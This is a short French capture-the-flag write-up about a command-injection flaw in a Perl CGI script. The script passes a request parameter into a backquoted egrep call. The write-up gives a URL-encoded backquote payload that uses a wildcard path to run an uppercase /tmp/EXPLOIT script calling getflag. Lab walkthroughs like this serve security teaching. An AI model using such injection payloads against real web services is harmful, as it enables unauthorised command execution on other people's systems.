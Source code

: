 Dans ce challenge, on a un fichier `perl`, qui est un serveur :

```bash
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";
```

Dans ce niveau la vulnérabilité est dans la fonction `t`:

```bash
sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}
```

On peut voir que des backquotes sont utilisées pour exécuter la commande `egrep` et que la variable `$xx` est utilisée comme argument de la commande `egrep`,
si la variable `$xx` contient aussi des backquotes, sont contenu sera exécuté

Donc si on envoie :

```bash
`/*/exploit`
```

Plus précisément il faut l'encoder, car c'est un URI :

```bash
%60%2F%2A%2FEXPLOIT%60
```

S'il y a un exécutable dans `/tmp/` qui se nomme `EXPLOIT`, il sera exécuté.

Il reste plus qu'à écrire un script bash `/tmp/EXPLOIT` qui appel `getflag >> /tmp/level12/flag`
